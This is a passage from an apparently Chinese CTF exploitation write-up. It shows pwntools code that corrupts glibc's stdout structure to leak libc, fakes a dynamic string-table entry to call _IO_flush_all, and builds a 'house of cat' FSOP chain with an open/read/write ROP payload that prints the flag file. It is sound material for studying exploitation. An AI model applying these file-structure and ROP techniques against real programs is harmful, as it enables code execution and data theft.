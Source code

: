 具体来说就是修改`_IO_write_base`或者`_IO_write_ptr`然后调用`_IO_flush_all`即可。

````python
# =============[ edit stdout ]==================
write(libc.symbols['_IO_2_1_stdout_'],p32(0xfbad1800))
write(libc.symbols['_IO_2_1_stdout_']+0x28,p8(0xff))

# ====[r_dubug.write ==> "_IO_flush_all"]=======
write(ld.symbols['_r_debug']+0x22,"_IO_flush_all\x00")     # 伪造wirte函数对应字符串表项：_IO_flush_all

# =============[.strtab ==> r_dubug]============
# =============[call _IO_flush_all]==============
logger("binary_map.l_info(DT_STRTAB)",binary_map.l_info(binary_map.DT_STRTAB))
write_nosuccess(binary_map.l_info(binary_map.DT_STRTAB),"\xb8")   # 修改strtab指向_r_debug
# call _IO_flush_all
# leak libc
p.recv(5)
libc_base = u64(p.recv(6).ljust(8,b'\x00'))-0x21ba70
logger("libc_base",libc_base)
````

### 5. 执行ROP

获得libc地址之后打法就很随意了，这里使用`house of cat`:

````python
# ================[fix write]===================
write(binary_map.l_info(binary_map.DT_STRTAB),"\x78")


# ===============[house of cat]=================
setcontext = libc_base+0x53a30+61
syscall = libc_base+0x0000000000091396
pop_rax = libc_base+0x0000000000045eb0
pop_rdi = libc_base+0x000000000002a3e5
pop_rsi = libc_base+0x000000000002be51
pop_rdx_rbx = libc_base+0x0000000000090529
_IO_wfile_jumps = libc_base+0x2160c0
heap = libc_base-0xf3ff0
stderr = libc_base+0x21a6a0

write(libc.symbols['_IO_2_1_stderr_']+0x28,p64(0xffffffffffffffff))
write(libc.symbols['_IO_2_1_stderr_']+0x40,p64(1))
write(libc.symbols['_IO_2_1_stderr_']+0x50,p64(heap)+p64(setcontext))# rdx
write(libc.symbols['_IO_2_1_stderr_']+0xa0,p64(stderr+0x30))
write(libc.symbols['_IO_2_1_stderr_']+0xd8,p64(_IO_wfile_jumps+0x30))
write(libc.symbols['_IO_2_1_stderr_']+0xd8+0x38,p64(stderr+0x40))

rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)+p64(pop_rdx_rbx)+p64(0x30)*2+p64(pop_rax)+p64(0)+p64(syscall)
rop += p64(pop_rdi)+p64(1)+p64(pop_rax)+p64(1)+p64(syscall)

payload = b"flag".ljust(0xa0,b'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,b'\x00')
payload += rop
write(0,payload)

# debug(p,"b *{}".format(setcontext))
# pause()

# =============[call _IO_flush_all]==============
write_nosuccess(binary_map.l_info(binary_map.DT_STRTAB),"\xb8")
````
